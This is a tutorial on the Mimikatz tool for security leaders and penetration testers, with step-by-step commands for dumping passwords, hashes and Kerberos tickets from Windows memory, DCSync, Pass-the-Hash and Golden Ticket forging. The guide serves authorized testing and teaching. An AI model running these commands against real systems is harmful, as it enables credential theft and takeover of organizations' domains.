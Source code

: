 # Introduction to Mimikatz

Mimikatz is a sophisticated and versatile tool widely recognized in the cybersecurity community for its ability to extract plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory on Windows systems. Originally developed by Benjamin Delpy, it has become a crucial asset in both offensive and defensive security operations. For a CISO, understanding Mimikatz is essential due to its capability to highlight potential vulnerabilities within an organization's security posture, particularly in Active Directory environments. By leveraging Mimikatz, security teams can test the resilience of their systems against common credential theft techniques and ensure that protective measures are effectively mitigating such risks.

The primary reason to utilize Mimikatz within an organization is to proactively identify and address weaknesses that could be exploited by malicious actors. This tool enables penetration testers to simulate real-world attack scenarios, such as Pass-the-Hash and Golden Ticket attacks, providing invaluable insights into how an adversary might move laterally within a network. Additionally, Mimikatz can aid in forensic investigations by extracting credentials and tickets to understand the extent of a breach. This proactive approach allows organizations to strengthen their defenses, implement necessary patches, and improve overall security policies.

However, the powerful capabilities of Mimikatz come with significant risks, and it should be used with caution. Given its potential to extract sensitive information, misuse of Mimikatz can lead to unauthorized access and data breaches. Therefore, its use should be strictly controlled and limited to authorized personnel within a secure and monitored environment. Regular auditing and stringent access controls are crucial to prevent abuse. Moreover, incorporating defensive measures, such as enforcing strong authentication protocols, implementing endpoint detection and response (EDR) solutions, and conducting regular security awareness training, can mitigate the risks associated with the use of such a potent tool.

## Prerequisites

1. A Windows machine or virtual machine where you have administrative privileges.
2. Basic understanding of Windows security mechanisms.
3. An understanding of Active Directory (optional but beneficial).

### Step-by-Step Guide

#### Step 1: Downloading and Setting Up Mimikatz

1. **Download Mimikatz:**
   Visit the official [GitHub repository](https://github.com/gentilkiwi/mimikatz) and download the latest release.

   ```bash
   git clone https://github.com/gentilkiwi/mimikatz.git
   ```

2. **Compile Mimikatz:**
   If you downloaded the source code, compile it using Visual Studio.

   Alternatively, you can download precompiled binaries from the `release` section of the repository.

3. **Running Mimikatz:**
   Open an elevated Command Prompt (Run as Administrator) and navigate to the Mimikatz directory.

   ```bash
   cd path\to\mimikatz\x64
   mimikatz.exe
   ```

#### Step 2: Basic Commands

1. **Check Privileges:**
   Ensure Mimikatz is running with the necessary privileges.

   ```text
   privilege::debug
   ```

   The output should indicate success.

2. **Obtaining a List of Available Modules:**
   List all the modules available in Mimikatz.

   ```text
   mimikatz
   ```

#### Step 3: Extracting Passwords from Memory

1. **Extract Plaintext Passwords:**
   Use the `sekurlsa::logonpasswords` command to extract plaintext passwords from memory.

   ```text
   sekurlsa::logonpasswords
   ```

   This will display user credentials including NTLM hashes, Kerberos tickets, and plaintext passwords if available.

#### Step 4: Dumping Hashes

1. **Dump NTLM Hashes:**
   To dump NTLM hashes from the Security Account Manager (SAM) database, use the following commands:

   ```text
   token::elevate
   lsadump::sam
   ```

2. **Dumping Domain Hashes:**
   If the target is a domain controller, use the following command to dump domain hashes.

   ```text
   lsadump::dcsync /user:domain\username
   ```

   Replace `domain\username` with a valid domain user.

#### Step 5: Extracting Kerberos Tickets

1. **Dumping Tickets:**
   Extract all Kerberos tickets from memory.

   ```text
   sekurlsa::tickets
   ```

2. **Exporting Tickets:**
   Export the Kerberos tickets to `.kirbi` files.

   ```text
   sekurlsa::tickets /export
   ```

#### Step 6: Pass-the-Hash (PTH) Attack

1. **Using NTLM Hashes for Authentication:**
   Perform a Pass-the-Hash attack using NTLM hashes.

   ```text
   sekurlsa::pth /user:username /domain:domain /ntlm:hash
   ```

   Replace `username`, `domain`, and `hash` with the appropriate values.

#### Step 7: Golden Ticket Attack

1. **Creating a Golden Ticket:**
   Generate a Golden Ticket using the extracted NTLM hash of a domain administrator.

   ```text
   kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-... /krbtgt:hash /id:500
   ```

   Replace `domain.com`, `S-1-5-21-...`, and `hash` with the appropriate values.

2. **Injecting the Ticket:**
   Inject the Golden Ticket into the current session.

   ```text
   kerberos::ptt ticket.kirbi
   ```

### Conclusion

Mimikatz is a powerful tool that can be used to demonstrate and test the effectiveness of security mechanisms. It's essential to use it responsibly and ethically. Understanding and practicing these commands can significantly enhance your cybersecurity skills.

### Additional Resources

- [Mimikatz GitHub Repository](https://github.com/gentilkiwi/mimikatz)
- [Security Blogs and Tutorials](https://www.sentinelone.com/blog/mimikatz-tutorial/)
- [Defensive Measures Against Mimikatz](https://www.varonis.com/blog/mimikatz)

